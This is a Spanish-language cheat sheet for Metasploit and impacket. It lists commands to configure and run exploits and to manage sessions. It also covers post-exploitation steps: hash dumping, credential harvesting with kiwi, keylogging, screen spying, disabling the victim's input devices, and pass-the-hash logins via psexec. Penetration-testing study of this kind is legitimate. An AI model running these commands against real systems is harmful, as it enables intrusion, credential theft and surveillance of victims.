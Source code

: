 En Metasploit puedes importar archivos XML, el cual puedes obtener del escaneo con Nmap. 
```bash 
❯ db_import /home/omar/Documents/allports        # Importas a Metasploit un archivo XML llamado 'allPorts' colocando su ruta absoluta
```

```bash 
❯ use ❮Number or path❯       # Colocamos el numero del exploit que vamos a usar
❯ back                       # Nos salimos del exploit o auxiliar que hemos elegido 
❯ options                    # Miramos las opciones del exploit y lo que debemos de configurar
❯ show advanced options      # Miramos las opciones avanzadas del exploit y lo que debemos de configurar
❯ check                      # Nos dice si el RHOST es vulnerable a ese exploit sin explotarlo, esto depende del modulo, si trae esta opcion o no
❯ set LHOST ❮IP❯             # Configuramos el IP local eth0, ens33 (Si estamos en una VPN colocar el Tun0)
❯ setg RHOSTS ❮IP❯           # Configuras de manera global el RHOSTS
❯ set RHOSTS ❮IP❯            # Configuramos el IP remoto (maquina victima)
❯ set RPORT ❮Port❯           # Configuramos el puerto remoto (maquina victima)
❯ set LPORT ❮Port❯           # Configuramos el puerto local
❯ show targets               # Miras los targets disponibles (Diferentes versiones de Windows)
❯ set target ❮Number❯        # Seleccionamos el numero de target a usar
❯ show payloads              # Miramos los payload disponibles
❯ set payload ❮Path❯         # Colocamos la ruta del Payload a usar
❯ run                        # Ejecutamos el exploit  

❯ ctrl + z                   # Colocas la sesion en 'Background'
❯ sessions                   # Miramos las sesiones activas 
❯ sessions -u <ID>           # Regresamos a la sesion 
```

Dentro de la maquina podemos hacer algunos comandos específicos
```bash 
❯ shell                      # Nos carga una shell
❯ load powershell            # Cargamos el modulo powershell
❯ powershell_shell           # Nos carga una powershell 
❯ getuid                     # Nos muestra el nombre del servidor o usuario en Windows  
❯ sysinfo                    # Nos muestra algunos detalles del servidor, arquitectura, SO, etc...
❯ ps                         # Mirar los procesos existentes
❯ hashdump                   # Para dumpear los hashes del sistema, crackearlos y hacer pass-the-hash
❯ load kiwi                  # Cargamos el modulo kiwi para poder usar 'creds_all'
❯ creds_all                  # Recopila informacion de credenciales de todo tipo
```

Usar Psexec
```bash 
❯ impacket-psexec WORKGROUP/omar@<IP Victima> -hashes :3ebi487y598ongyn98g56yng389yr6d6u  # Podemos hacer pass the hash y ser nt authority\system
❯ impacket-psexec WORKGROUP/omar:<Password>@<IP Victima>                                  # Podemos usar la passwd para entrar y ser nt authority\system
```

Comandos de Metasploit dentro de la maquina victima.
```bash 
❯ help                       # Miramos el panel de ayuda
❯ screenshot                 # Captura de pantalla del equipo
❯ load espia                 # Cargamos el modulo 'espia' y asi poder usar el 'screengrab, screenshare'
❯ screenshare                # Mirar el escritorio del usuario remoto en tiempo real 
❯ uictl disable <mouse>      # Podemos desabilitar (disable, enable) algunos componentes de interface de la maquina victima como: mouse, keyboard, all 
❯ keyscan_start              # Sniffer de pulsaciones del teclado
❯ keyscan_dump               # Nos muestra lo que capturo por el teclado con el comando anterior
❯ keyscan_stop               # Para el sniffer de pulsaciones del teclado
❯ background                 # Ponemos la sesion en segundo plano 
❯ sessions                   # Miramos las sesiones activas en segundo plano 
```